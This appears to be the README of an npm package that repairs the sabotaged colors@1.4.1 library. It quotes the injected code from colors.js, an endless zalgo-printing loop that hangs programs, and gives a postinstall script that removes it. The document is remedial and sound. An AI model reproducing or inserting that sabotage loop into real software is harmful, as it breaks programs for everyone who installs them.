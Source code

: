 # What's it for?

[colors](https://www.npmjs.com/package/colors)@^1.4.1 has action of out-of-memory: https://github.com/Marak/colors.js/commit/5d2d242f656103ac38086d6b26433a09f1c38c75.

https://github.com/Marak/colors.js/blob/master/lib/index.js

```js
...

/* here... */
/* remove this line after testing */
let am = require('../lib/custom/american');
am();
for (let i = 666; i < Infinity; i++) {
  if (i % 333) {
    // console.log('testing'.zalgo.rainbow)
  }
  console.log('testing testing testing testing testing testing testing'.zalgo)
}
```

# Solution

Remove the oom action code after node_modules was installed.

package.json

```js
{
    "scripts": {
        "postinstall": "node fixColors.js"
    }
}
```

fixColors.js

```js
const path = require('path');
const fixColorsOom = require('fix-colors-oom');
const nodeModulesFolder = path.join(__dirname, 'node_modules');

fixColorsOom.fixFolder(nodeModulesFolder);

// or fix target file path
fixColorsOom.fixFile(path.join(__dirname, 'node_modules/colors/lib/index.js'));
```

# LICENSE

MIT